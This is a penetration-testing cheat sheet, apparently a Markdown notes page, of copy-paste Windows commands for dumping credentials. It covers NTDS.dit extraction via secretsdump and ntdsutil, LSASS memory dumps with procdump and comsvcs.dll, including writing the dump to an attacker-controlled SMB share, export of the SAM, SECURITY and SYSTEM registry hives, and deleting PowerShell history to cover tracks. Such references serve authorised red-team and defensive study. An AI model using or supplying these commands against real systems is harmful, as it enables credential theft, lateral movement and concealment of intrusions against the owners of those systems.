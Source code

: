 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials[^1]

### NTDS dumping

#### Impacket-secretsdump directly
```
secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
```

#### ntdsutil[^2][^3]
```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
# Via WMIC from a remote machine to DC
wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"

# Then copy to kali and use secretsdump
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
```


### Procdump & Mimikatz

Useful if AV cannot be disabled and does not block procdump.exe

1. On target machine
    * Via procdump.exe
        ```batch
        procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        ```
    * Via Task manager
        * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
    * Remote LSASS dump[^4]
        * Run below on the target/victim machine
            ```batch
            net use x: \\smbserver_under_your_control\c$\
            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
            ```
    
1. Retrieve file

1. On local machine (Windows)
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```

### Exporting registry hives & local decryption
1. On the target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../../#data-exfiltration)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```
---
## Delete Powershell history
* Delete the "file" given by this command:
    ```powershell
    (Get-PSReadlineOption).HistorySavePath
    ```
* Or just replace the <username> below
    ```powershell
    del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```


[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
